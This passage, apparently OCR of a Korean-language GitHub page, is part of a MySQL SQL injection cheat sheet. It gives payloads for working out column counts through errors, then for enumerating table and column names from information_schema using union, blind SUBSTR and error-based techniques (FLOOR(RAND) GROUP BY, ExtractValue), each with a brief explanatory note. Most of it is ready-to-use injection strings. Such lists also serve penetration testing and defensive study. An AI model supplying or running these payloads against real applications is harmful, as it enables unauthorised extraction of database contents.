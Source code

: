 `1 INTO @,@,@&nbsp;&nbsp;&nbsp;&nbsp;사용된 SELECT 문은 다른 컬럼 수를 가짐.`<br>
`1 INTO @,@&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;에러가 없다는 건 컬럼 2개를 사용함을 의미함.`<br><br>

ⓓ 에러 기반3<br><br>

`AND (SELECT * FROM SOME_EXISTING_TABLE) = 1`<br><br>

노트 :<br>
이 작업은 이후의 테이블 명을 알고 에러 표시가 활성화된 경우 작동함.<br>
쿼리가 아닌 테이블의 컬럼 수를 반환함.<br><br>

예 :<br>
`주어진 쿼리 SELECT permission FROM Users WHERE id = {INJECTION POINT};`<br><br>

1 AND (SELECT * FROM Users) = 1&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;피연산자는 3개의 컬럼을 포함해야 함.<br><br>

**② 테이블 검색**<br><br>

ⓐ Union<br><br>

`UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;`<br><br>

노트 :<br>
MySQL 5 의 경우 version = 10 임.<br>
Union SQL Injection 이란 2개 이상의 쿼리를 요청하여 결과를 얻는 UNION 이라는 SQL 연산자를 이용한 SQL Injecion 공격을 말하며 공격자는 이 연산자를 이용하여 원래의 요청에 한 개의 추가 쿼리를 삽입하여 정보를 얻어냄.<br>
(전제 조건 : 컬럼의 갯수가 같아야 하고 데이터 형식도 같아야 함)<br><br>

ⓑ Blind<br>

`AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'`<br><br>

노트 :<br>
MySQL 5 의 경우 version = 10 임.<br>
Blind SQL Injection 이란 에러문과 같은 시작적 근거가 없을 때 사용하는 기법으로 참/거짓에 따른 차이를 이용한 SQL Injection 공격임.<br>
해당 기법에 주로 SUBSTR() 함수가 주로 쓰이며 해당 함수는 문자열과 자를 문자열의 범위를 파라미터로 받아서 해당 부분의 문자열을 리턴해주는 함수임.<br>
SUBSTR() 함수의 기본 형식은 아래와 같음.<br>
substr("문자열", 자르기 시작할 문자의 인덱스, 자를 문자의 개수)<br><br>

ⓒ Error<br><br>

`AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2)))`<br><br>

`(@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);`<br><br>

`AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));-- Available in 5.1.5`<br><br>

노트 :<br>
MySQL 5 의 경우 version = 10 임.<br>

**③ 컬럼 검색**<br><br>

ⓐ Union<br><br>

`UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'`<br><br>
